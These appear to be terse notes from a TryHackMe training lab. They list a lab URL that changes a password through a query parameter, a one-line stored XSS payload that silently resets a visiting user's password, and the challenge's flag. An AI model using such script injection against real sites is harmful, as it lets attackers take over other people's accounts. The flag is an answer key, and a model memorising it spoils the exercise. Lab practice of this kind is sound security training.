McSkidy
password

### new password
hello

https://10-10-30-171.p.thmlabs.com/settings?new_password=hello


<script>fetch('/settings?new_password=pass123');</script>

THM{NO_MORE_BUTTMAS}
